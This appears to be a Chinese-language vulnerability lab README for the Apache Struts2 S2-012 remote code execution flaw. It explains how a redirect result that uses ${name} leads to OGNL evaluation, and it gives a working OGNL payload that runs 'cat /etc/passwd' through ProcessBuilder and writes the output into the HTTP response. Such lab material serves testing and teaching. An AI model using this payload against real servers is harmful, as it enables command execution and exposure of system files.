

# S2-012 远程代码执行漏洞

影响版本: 2.1.0 - 2.3.13

漏洞详情: http://struts.apache.org/docs/s2-012.html

## 测试环境搭建

```
docker-compose build
docker-compose up -d
```

## 原理

如果在配置 Action 中 Result 时使用了重定向类型，并且还使用 ${param_name} 作为重定向变量，例如：

```xml
<package name="S2-012" extends="struts-default">
    <action name="user" class="com.demo.action.UserAction">
        <result name="redirect" type="redirect">/index.jsp?name=${name}</result>
        <result name="input">/index.jsp</result>
        <result name="success">/index.jsp</result>
    </action>
</package>
```

这里 UserAction 中定义有一个 name 变量，当触发 redirect 类型返回时，Struts2 获取使用 ${name} 获取其值，在这个过程中会对 name 参数的值执行 OGNL 表达式解析，从而可以插入任意 OGNL 表达式导致命令执行。

## Exp

可以直接祭出s2-001中的回显POC，因为这里是没有沙盒，也没有限制任何特殊字符（为什么？）。

```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat", "/etc/passwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

发送请求，执行命令：


